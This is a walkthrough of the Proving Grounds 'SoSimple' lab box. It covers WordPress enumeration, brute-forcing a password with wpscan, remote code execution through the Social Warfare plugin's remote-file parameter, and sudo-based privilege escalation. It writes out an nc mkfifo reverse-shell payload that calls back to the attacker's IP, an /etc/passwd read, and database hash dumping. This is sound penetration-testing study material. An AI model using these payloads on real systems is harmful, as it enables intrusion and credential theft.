# SoSimple
**Date:** February 2nd 2023

**Author:** j.info

**Link:** [**Proving Grounds**](https://portal.offensive-security.com/proving-grounds/play) on Offensive Security

**PG Difficulty Rating:** Intermediate

<br>


<br>

## Objectives
- local.txt flag
- proof.txt flag

<br>

## Initial Enumeration

### Nmap Scan

`sudo nmap -sV -sC -T4 $ip`

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: So Simple
```

<br>

### Gobuster Scan

`gobuster dir -u http://$ip -t 100 -r -x php,txt,html -w dir-med.txt`

```
/index.html           (Status: 200) [Size: 495]
/wordpress            (Status: 200) [Size: 13381]

```

<br>

## Website Digging

Visiting the main page:


It looks like we have a WordPress site over at /wordpress:



Running a wpscan to see what we can find:

`wpscan --url http://$ip/wordpress/ -v -t 20 -e vt,tt,u,vp,dbe,u,m --plugins-detection aggressive --plugins-version-detection aggressive --api-token TOKEN`

```
[+] WordPress version 5.4.2 identified

[!] Title: Social Warfare <= 3.5.2 - Unauthenticated Remote Code Execution (RCE)
 
[i] User(s) Identified:
[+] admin
[+] max
```

I decide to brute force the max user with wpscan and it finds the password fairly quickly:

`wpscan --url http://$ip/wordpress/wp-login.php -v --passwords rockyou.txt --usernames max --max-threads 50 --api-token TOKEN`

```
[!] Valid Combinations Found:
 | Username: max, Password: <REDACTED>
```

Before I start digging around with this user I wanted to test out the Social Warfare RCE that wpscan found.


I create a text file called rce.txt and add the following to it:

```
<pre>system('cat /etc/passwd')</pre>
```

I start up a python3 simple HTTP server listener on my system to host the file and then navigate to this link which points the site back to me and the file I created:

```
http://192.168.56.78/wordpress/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://192.168.49.56/rce.txt
```

Sure enough, it returns the contents of /etc/passwd!



<br>

## System Access

I modify rce.txt to run the `which nc` command to see if we can use nc for our reverse shell and it comes back saying it's in /usr/bin/nc.

I modify rce.txt again to use the nc mkfifo reverse shell:

```
<pre>system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 192.168.49.56 4444 >/tmp/f')</pre>
```

I start the simple HTTP server back up and start a listener to catch the reverse shell and then navigate back to vulnerable link:



We're in! I quickly fix my shell:



<br>

## System Enumeration

Alright we know that our users on the system are steven and max, and we have a WordPress password for max that we cracked. Let's see if password reuse is in play by trying to switch to his user. Darn, no luck.

I head over to /var/www/html/wordpress and see a file called secretkey.txt which contains a base64 code. And, of course, it's definitely not that easy.



The wp-config.php file has the local database credentials in it:

```
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'wp_user' );

/** MySQL database password */
define( 'DB_PASSWORD', 'password' );
```

I login to the database and check the wp_users for hashes:

`mysql -u wp_user -p`

```
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 25492
Server version: 10.3.22-MariaDB-1ubuntu1 Ubuntu 20.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| wordpress          |
+--------------------+
2 rows in set (0.000 sec)

MariaDB [(none)]> use wordpress
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [wordpress]> show tables;
+-----------------------+
| Tables_in_wordpress   |
+-----------------------+
| wp_commentmeta        |
| wp_comments           |
| wp_links              |
| wp_options            |
| wp_postmeta           |
| wp_posts              |
| wp_term_relationships |
| wp_term_taxonomy      |
| wp_termmeta           |
| wp_terms              |
| wp_usermeta           |
| wp_users              |
+-----------------------+
12 rows in set (0.000 sec)

MariaDB [wordpress]> select * from wp_users

+----+------------+------------------------------------+---------------+----------------------+----------+---------------------+---------------------+-------------+----------------+
| ID | user_login | user_pass                          | user_nicename | user_email           | user_url | user_registered     | user_activation_key | user_status | display_name   |
+----+------------+------------------------------------+---------------+----------------------+----------+---------------------+---------------------+-------------+----------------+
|  1 | admin      | $P$BqOIi8a7Jtcidgsi9y9WXw9UIfqD4q1 | admin         | admin@sosimple.local |          | 2020-07-12 13:50:12 |                     |           0 | admin          |
|  2 | max        | $P$BfDfIwyVLEQAVBrDn/ox9qT6uzgwwZ1 | max           | max@sosimple.local   |          | 2020-07-15 16:31:30 |                     |           0 | Max Verstappen |
+----+------------+------------------------------------+---------------+----------------------+----------+---------------------+---------------------+-------------+----------------+
```

We have the password for max already so I run the hash through crackstation.net and also try to crack it with hashcat, but no luck.

I check our `id` output and see:

```
uid=1000(max) gid=1000(max) groups=1000(max),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
```

Ooooh lxd! We can potentially use that to get our root flag.

I run `lxd init` to setup the storage pool, but unfortunately it doesn't look like our kernal supports IPv6, so we're out of luck on this one.

```
Error: Failed to create network 'lxdbr0': Network has ipv6.address but kernel IPv6 support is missing
```

Over in /home/max we find our local.txt flag waiting for us:

`wc -c /home/max/local.txt`

```
33 /home/max/local.txt
```

We also have a file called personal.txt which again contains the same base64 encoded string from earlier that says it's not that easy.

There's also a directory called "this" which the author decides to troll us with:







BUT I then check the /home/max/.ssh directory, which contains an actual private key that I use to connect over to the max user:



We can now view the user.txt file in max's home directory which just says:

```
This is not the flag you're looking for...
```

Looking for misconfigured SUID files with 'find / -perm /4000 2>/dev/null' doesn't give us anything out of the ordinary.

Same goes with `getcap -r / 2>/dev/null`.

Running a `netstat -tunlp` shows the only ports open are what we found with nmap.

I look for all files on the system that max owns with `find / -user max 2>/dev/null | grep -v '/proc' | grep -v '/sys/fs/' | grep -v '/run'` but nothing sticks out. Same for the steven user.

Looking at `crontab -l` and /etc/crontab doesn't give us anything to go on.

I try and switch over to the steven user with a couple common passwords, as well as the password we found for max just in case, but that doesn't end up working.

Looking back in the web directories I find a file called mybackup.txt in /var/www/html. It contians some base32 encoded text:



It ends up being the same password we cracked for max earlier.

I got distracted earlier and didn't even bother to check `sudo -l` which shows max can run:

```
Matching Defaults entries for max on so-simple:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User max may run the following commands on so-simple:
    (steven) NOPASSWD: /usr/sbin/service
```

Looking that up on GTFOBins:



I give it a try and it works:



<br>

## Root

Checking `sudo -l` FIRST this time shows us:



When I go see what that script does it doesn't exist which means this is going to be a really easy one:



Looking in /root shows that our proof.txt flag is waiting for us:

`wc -c /root/proof.txt`

```
33 /root/proof.txt
```

<br>

With that we've completed this CTF!



<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **nmap** and **gobuster**
- Using **wpscan** to enumerate users and crack passwords on the WordPress site
- Exploiting the WordPress **Social Warefare** plugin that's vulnerable to an RCE exploit and using it to get our initial foothold on the system
- Finding an unprotected **private SSH key** and using it to move to another user
- Sudo -l shows we can run the **/usr/sbin/service** command as another user, and that allows us to move over to that user
- Check sudo -l on the new user shows we can run a .sh script as root, but when looking that script doesn't exisit on the system which allows us to create it with just /bin/bash inside and escalate to root

<br>

Many thanks to:
- [**Offensive Security**](https://www.offensive-security.com/) for hosting this CTF
